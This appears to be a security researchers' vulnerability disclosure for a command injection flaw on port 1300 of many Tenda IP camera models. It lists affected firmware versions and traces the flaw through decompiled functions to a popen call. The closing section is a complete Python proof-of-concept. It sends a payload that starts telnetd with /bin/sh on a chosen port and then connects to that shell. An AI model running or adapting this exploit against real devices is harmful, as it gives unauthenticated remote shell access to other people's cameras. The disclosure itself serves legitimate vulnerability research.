 # Information

#### Vendor of the products:

Tenda

#### Reported by: 

FeiXincheng(FXC030618@outlook.com) && ShaLetian(ltsha@njupt.edu.cn) from X1cT34m

#### Affected products:

Tenda CP7, Tenda CP3 v.10,Tenda IT7-PCS,Tenda IT7-LCS,Tenda IT7-PRS，Tenda IT7-LRS,Tenda IC7-LRS,Tenda IC7-PRS,Tenda IT6-PCS，Tenda IT6-LCS,Tenda IT6-PRS,Tenda IC6-LRS,Tenda IC6-PRS,Tenda IT6-LRS

#### Affected firmware version:

Tenda CP7<=V11.10.00.2211041403

Tenda CP3 v.10<=V20220906024_2025

Tenda IT7-PCS<=V2209020914

Tenda IT7-LCS<=V2209020914

Tenda IT7-PRS<=V2209020908

Tenda IT7-LRS<=V2209020908_0909

Tenda IC7-LRS<=2209020910

Tenda IC7-PRS<=2209020910

Tenda IT6-PCS<=2209020915

Tenda IT6-LCS<=2209020915

Tenda IT6-PRS<=2209020911

Tenda IC6-LRS<=2209020912

Tenda IC6-PRS<=2209020912

Tenda IT6-LRS<=2209020911

#### Vendor Homepage:

https://www.tenda.com.cn/

#### Vendor Advisory: 

https://www.tenda.com.cn/product/download/CP7.html

https://www.tenda.com.cn/download/detail-3472.html

https://www.tenda.com.cn/download/detail-3471.html

https://www.tenda.com.cn/download/detail-3470.html

https://www.tenda.com.cn/download/detail-3466.html

https://www.tenda.com.cn/download/detail-3467.html

https://www.tenda.com.cn/download/detail-3463.htmll

https://www.tenda.com.cn/download/detail-3478.html

https://www.tenda.com.cn/download/detail-3469.html

https://www.tenda.com.cn/download/detail-3464.html

https://www.tenda.com.cn/download/detail-3466.html

https://www.tenda.com.cn/download/detail-3461.html

https://www.tenda.com.cn/download/detail-3462.html

https://www.tenda.com.cn/download/detail-3465.html

# Summarize

`Tenda IPC` was discovered to contain a command injection vulnerability in port `1300`.This vulnerability allows attackers to execute arbitrary commands.

# Vulnerability details

The vulnerability is in port `1300`.

At first, from the `start`entry enters, and then the `sub_11924` function is executed.

![image-20220316191407126](./img/1.png)

In the function `sub_11924`, we find that we can controll the content, and then we can execute the `sub_14404` function.

![image-20220316191407126](./img/2.png)

In the function `sub_14404`, the content will be passed to `sub_16E04`.

![image-20220316191407126](./img/3.png)

In the function  `sub_16E04`,we find that dangerous function `popen` appear. And we can achieve a code excute.

![image-20220316191407126](./img/4.png)



# poc

for example:	python3 exploit.py 192.168.2.106 8888

```python
from time import sleep
import requests
import socket
import sys
import os


if __name__ == "__main__":
	TARGET_IP = sys.argv[1]
	SHELL_PORT = sys.argv[2]

	SHELL_OPERATION = "<SYSTEMEX>telnetd -p %s -l /bin/sh &</SYSTEMEX>" % SHELL_PORT

	print("\x1b[01;38;5;214m[+] Connect to target ip\x1b[0m")
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((TARGET_IP,1300))
	sleep(0.5)

	print("[+] Sending payload to %s ..." % TARGET_IP)
	s.send(SHELL_OPERATION.encode())
	
	s.recv(1024)
	sleep(1)
	
	print("\x1b[01;38;5;1m[+] Successfully connect to Port %s\x1b[0m" % SHELL_PORT)
	os.system("telnet %s %s" % (TARGET_IP,SHELL_PORT))
	
	s.close()

```

#### Before attack

![image-20220316191407126](./img/5.png)

#### After attack

![image-20220316191407126](./img/6.png)

![image-20220316191407126](./img/7.png)